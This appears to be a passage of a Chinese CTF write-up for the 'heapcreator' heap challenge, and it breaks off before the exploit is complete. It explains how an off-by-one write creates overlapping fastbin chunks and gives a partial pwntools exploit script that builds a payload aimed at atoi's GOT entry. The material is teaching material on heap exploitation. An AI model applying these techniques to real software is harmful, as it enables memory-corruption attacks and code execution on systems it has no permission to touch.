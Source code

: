 ```c++
```



#### show ####

输出size和content的内容。

#### delete ####

依次free掉content和chunk两个堆块，然后将heaparray全局数组上对应项置为NULL，所以不存在UAF漏洞。

### 利用 ###

​	我们要利用off-by-one写漏洞，实现前向的overlapping，具体方法是，首先申请两个size分别为0x18和0x10的chunk，使得size为0x18的chunk复用下一个chunk的prev_size字段；然后用edit功能修改下个chunk的size字段为\x41（或\x40）都可以，此时调用delete功能，就会向fastbin数组中0x20和0x40的单向链表中分别放入一个chunk，其中0x40的chunk与0x20的chunk形成了重叠，之后的利用就顺理成章了，我们看一下exp。

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./heapcreator")
p = process("./heapcreator")

def create(size, content):
	p.recvuntil("choice :")
	p.sendline("1")
	p.recvuntil("Heap :")
	p.sendline(str(size))
	p.recvuntil("heap:")
	p.send(content)

def edit(index, content):
	p.recvuntil("choice :")
	p.sendline("2")
	p.recvuntil("Index :")
	p.sendline(str(index))
	p.recvuntil("heap : ")
	p.send(content)

def show(index):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(index))

def delete(index):
	p.recvuntil("choice :")
	p.sendline("4")
	p.recvuntil("Index :")
	p.sendline(str(index))

create(0x18, "a") # 0 
create(0x10, "b") # 1

# change size
edit(0, "a" * 0x18 + "\x41")

atoi_got = elf.got['atoi']

# push to fastbin
delete(1)
payload = "a" * 0x10 + p64(0) + "\x21".ljust(8,"\x00") + p64(0x30) + p64(atoi_got)
```